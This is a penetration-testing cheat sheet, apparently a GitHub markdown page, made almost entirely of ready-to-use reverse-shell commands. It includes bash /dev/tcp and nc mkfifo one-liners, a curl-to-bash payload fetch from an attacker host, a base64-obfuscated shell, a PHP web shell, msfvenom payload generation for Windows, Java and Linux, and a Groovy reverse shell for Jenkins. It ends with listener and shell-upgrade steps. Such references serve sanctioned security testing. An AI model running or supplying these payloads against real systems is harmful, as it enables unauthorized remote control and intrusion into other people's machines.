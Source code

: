 # Shell

## Reverse shell

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [revshells](https://www.revshells.com/)

```
#!/bin/bash
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```
```
curl http://<lhost>/shell.sh|bash
```
```
echo -n "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" | base64
echo <base64-shell> | base64 -d | bash
{echo,<base64-shell>}|{base64,-d}|bash
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <lhost> <lport> >/tmp/f
```
```
<?php system($_REQUEST['cmd']); ?>
```

Listen for reverse shell with netcat:
```
nc -nvlp <port>
```

### Msfvenom
```
msfvenom -l payloads

msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f war > shell.war
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
```

### Groovy (for Jenkins)
```java
String host="<lhost>";
int port=9001;
String cmd="whoami";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Interactive shell

### Linux

1. ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. ``CTRL+Z``
3. ``stty raw -echo && fg``

### Windows

``rlwrap nc -nvlp <port>``
